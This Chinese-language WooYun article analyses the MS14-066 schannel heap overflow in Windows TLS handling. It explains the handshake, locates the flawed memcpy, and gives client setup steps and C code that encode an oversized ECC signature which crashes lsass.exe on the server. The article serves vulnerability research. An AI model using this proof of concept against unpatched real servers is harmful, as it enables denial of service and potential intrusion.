# CVE-2014-6321 schannel 堆溢出漏洞分析

2014/12/05 12:09 | [cssembly](http://drops.wooyun.org/author/cssembly "由 cssembly 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

MS14-066 (CVE-2014-6321) 是存在于 Microsoft 的 schannel.dll 中的 TLS 堆缓冲区溢出漏洞。下面对原理以及 poc 构造进行分析。

## 0x01 SSL/TLS 原理介绍

* * *

Https 是一种基于 SSL/TLS 的 Http，所有的 http 数据都是在 SSL/TLS 协议封装之上传输的。研究 Https 协议原理，最终其实是研究 SSL/TLS 协议。SSL 协议，是一种安全传输协议。TLS 是 SSL v3.0 的升级版，目前市面上所有的 Https 都是用的是 TLS，而不是 SSL。

TLS 的握手阶段是发生在 TCP 三次握手之后。握手实际上是一种协商的过程，对协议所必需的一些参数进行协商。TLS 握手过程分为四步，过程如下：



## Client Hello

* * *

由于客户端对一些加解密算法的支持程度不一样，因此在 TLS 握手阶段，客户端要告知服务端，自己支持哪些加密算法，所以客户端需要将本地支持的加密套件的列表传送给服务端。除此之外，客户端还要产生一个随机数，这个随机数一方面需要在客户端保存，另一方面需要传送给服务端，客户端的随机数需要跟服务端产生的随机数结合起来产生后面要讲到的 Master Secret。

## Server Hello

* * *

服务端在接收到客户端的 Client Hello 之后，服务端需要将自己的证书发送给客户端。这个证书是对于服务端的一种认证。在服务端向客户端发送的证书中没有提供足够的信息的时候，还可以向客户端发送一个 Server Key Exchange。

对于非常重要的保密数据，服务端还需要对客户端进行验证，以保证数据传送给了安全的合法的客户端。服务端可以向客户端发出 Cerficate Request 消息，要求客户端发送证书对客户端的合法性进行验证。

跟客户端一样，服务端也需要产生一个随机数发送给客户端。客户端和服务端都需要使用这两个随机数来产生 Master Secret。

最后服务端会发送一个 Server Hello Done 消息给客户端，表示 Server Hello 消息结束了。

## Client Key Exchange

* * *

如果服务端需要对客户端进行验证，在客户端收到服务端的 Server Hello 消息之后，首先需要向服务端发送客户端的证书，让服务端验证客户端的合法性。 在此之前的所有 TLS 握手信息都是明文传送的。在收到服务端的证书等信息之后，客户端会使用一些加密算法产生一个 48 个字节的 Key，这个 Key 叫 PreMaster Secret, 最终通过 Master secret 生成会话密钥，用来对应用数据进行加解密的。PreMaster secret 使用 RSA 非对称加密的方式，使用服务端传过来的公钥进行加密，然后传给服务端。

接着，客户端对服务端的证书进行检查，检查证书的完整性以及证书跟服务端域名是否吻合。

ChangeCipherSpec 是一个独立的协议，用于告知服务端，客户端已经切换到之前协商好的加密套件的状态，准备使用之前协商好的加密套件加密数据并传输了。

在 ChangecipherSpec 传输完毕之后，客户端会使用之前协商好的加密套件和会话密钥加密一段 Finish 的数据传送给服务端，此数据是为了在正式传输应用数据之前对刚刚握手建立起来的加解密通道进行验证。

## Server Finish

* * *

服务端在接收到客户端传过来的 PreMaster 加密数据之后，使用私钥对这段加密数据进行解密，并对数据进行验证，也会使用跟客户端同样的方式生成会话密钥，一切准备好之后，会给客户端发送一个 ChangeCipherSpec，告知客户端已经切换到协商过的加密套件状态，准备使用加密套件和会话密钥加密数据了。之后，服务端也会使用会话密钥加密后一段 Finish 消息发送给客户端，以验证之前通过握手建立起来的加解密通道是否成功。

根据之前的握手信息，如果客户端和服务端都能对 Finish 信息进行正常加解密且消息正确的被验证，则说明握手通道已经建立成功，接下来，双方可以使用上面产生的会话密钥对数据进行加密传输了。

CVE-2014-6321 漏洞之所以严重，主要是在服务端配置为不需要对客户端进行验证时，可以由客户端发送 Certificate Verify，最终导致服务端进行客户端的证书的合法性进行检查，触发漏洞

## 0x02 原理分析

* * *

根据之前 Mike Czumak 的分析报告，知道漏洞存在于 unsigned int __stdcall DecodeSigAndReverse(const BYTE *pbEncoded, DWORD cbEncoded, void *Dst, int a4, LPCSTR lpszStructType)函数中。



当 lpszStructType 为 0x2F (X509_ECC_SIGNATURE)时，pbEncoded 为指向 CERT_ECC_SIGNATURE 的指针，其结构如下，其中 cbData 为 pbData 指向数据的长度。

```
typedef struct _CERT_ECC_SIGNATURE {
    CRYPT_UINT_BLOB     r;
    CRYPT_UINT_BLOB     s;
} CERT_ECC_SIGNATURE, *PCERT_ECC_SIGNATURE;
typedef struct _CRYPTOAPI_BLOB {
                            DWORD   cbData;
    __field_bcount(cbData)  BYTE    *pbData;
} CRYPT_UINT_BLOB, *PCRYPT_UINT_BLOB;

```

第一次调用 CryptDecodeObject 获取成功解码所需要的缓冲区长度，第二次完成解码。如果能够控制解码后 r 或者 s 中的 cbData 大小，使其超过 Dst 缓冲区大小，最终就能溢出。

首先看 Dst 缓冲区的大小，DecodeSigAndReverse 的调用点在 CheckClientVerifyMessage 中，Dst 也就是 v12，v12 由 SPExternalAlloc 根据 v11 的值分配得到，而 v11 是由 BCryptGetProperty 获取的 CNG 对象的 KeyLength 属性的值，查询 MSDN 知道其表示 Key 的比特数，因此后面通过右移 3 位获取对应的字节数。当采用 256 bit 椭圆曲线数字签名算法时，v12 的值为 0x40。



对于待解码的数据缓冲区指针 pbSignature 和缓冲区大小 cbEncoded 来自 NTSTATUS __stdcall CheckClientVerifyMessage(int a1, const wchar_t *pszBlobType, int a3, int a4, UCHAR *a5, DWORD cbEncoded)的参数 a5 和 cbEncoded。通过调试分析可以看到 a5 指向客户端发送的签名数据，cbEncoded 是签名数据的长度，显然可以控制这部分数据。如果能够使 CryptDecodeObject 按照我们的意愿解码出恶意的数据就能最终触发漏洞。



## 0x03 环境搭建与 POC 构造

* * *

## 服务器环境的搭建

* * *

通过 IIS 管理器构建服务器证书，采用自签名证书，添加网站绑定 https，设置 ssl 为忽略客户端证书。





通过 https 协议访问搭建好的网站。



## 客户端环境的搭建

* * *

在采用 openssl-1.0.1j，在 kali 上编译运行，生成 EC cert 和 key，命令如下：

> openssl ecparam -out ec_key.pem -name prime256v1 -genkey openssl req -new -key ec_key.pem -x509 -nodes -days 365 -out cert.pem

为了能够让服务器进行客户端证书认证，修改 openssl-1.0.1j/ssl/s3_clnt.c 文件，每次都发送证书进行认证。修改函数 int ssl3_connect(SSL *s)，在 Server Hello Done 处理后，将 s->s3->tmp.cert_req 置为 1。



编译修改后的代码，切换当前目录为 openssl-1.0.1j/apps/，通过命令./openssl s_client -connect xxx.xxx.xxx.xxx:443 -cert cert.pem -key ec_key.pem -verify 5 连接服务端，在服务器端的 lsass.exe 进程的 NTSTATUS __thiscall CSsl3TlsServerContext::DigestCertVerify(int this, unsigned __int8 *a2, unsigned int a3)函数上设置断点，可以看到触发了断点。



## POC 构造

* * *

下面构造签名部分，即 CryptDecodeObject 解码的数据，为了能够得到可控的解码后的数据，调用 CryptEncodeObject 对我们想要的数据进行编码，这样只要编码成功，CryptDecodeObject 就总是可以解码成功。

```
BYTE* GetDecodeObject()
{
CERT_ECC_SIGNATURE sig;
    char pData[0x1000];
    memset( pData , 0xcc , 0x1000 );
    sig.r.pbData = (BYTE*)pData;
    sig.r.cbData = 0x20;
    sig.s.cbData = 0x1000;
    sig.s.pbData = (BYTE*)pData;
    DWORD cbEncoded = 0;
    if ( CryptEncodeObject( X509_ASN_ENCODING , X509_ECC_SIGNATURE , &sig , NULL , &cbEncoded ) )
    {
        unsigned char *pEnc = new unsigned char[cbEncoded];
        CryptEncodeObject( X509_ASN_ENCODING , X509_ECC_SIGNATURE , &sig , (BYTE*)pEnc , &cbEncoded );
        return pEnc;
    }
    return NULL;
}

```

最终得到大小为 0x200e 字节的数据，数据为 0x30、0x82、0x20、0x0a、0x02、0x82、0x10、0x01、0x00、0xcc(连续 0x1000 个)、0x82、0x10、0x01、0x00、0xcc(连续 0x1000 个) 修改 s3_clnt.c 中的 int ssl3_send_client_verify(SSL *s)函数，将数据发送出去。



对修改的代码进行编译运行，可以看到 CheckClientVerifyMessage 函数的 a5 指向我们构造的数据，cbEncoded 的值为 0x0000200e。



运行到 DecodeSigAndReverse 函数，其参数 pbEncoded 指向我们构造的数据，cbEncoded 的值为 0x0000200e。



经过 CryptDecodeObject 解码后，得到的 CERT_ECC_SIGNATURE 的 r 和 s 中的 cbData 都为 0x1000,后续的 memcpy 将 0x1000 大小的缓冲区中数据拷到 0x40 大小的缓冲区，导致了溢出，最终触发异常。







版权声明：未经授权禁止转载 [cssembly](http://drops.wooyun.org/author/cssembly "由 cssembly 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [CVE-2014-4113 漏洞利用过程分析](http://drops.wooyun.org/papers/3331)
*   [MS15-002 telnet 服务缓冲区溢出漏洞分析与 POC 构造](http://drops.wooyun.org/papers/4621)
*   [逆向基础（九）](http://drops.wooyun.org/tips/2459)
*   [Alictf2014 Writeup](http://drops.wooyun.org/tips/3166)
*   [CVE2014-6287 分析报告](http://drops.wooyun.org/papers/3091)
*   [弱随机化种子漏洞科普](http://drops.wooyun.org/papers/1419)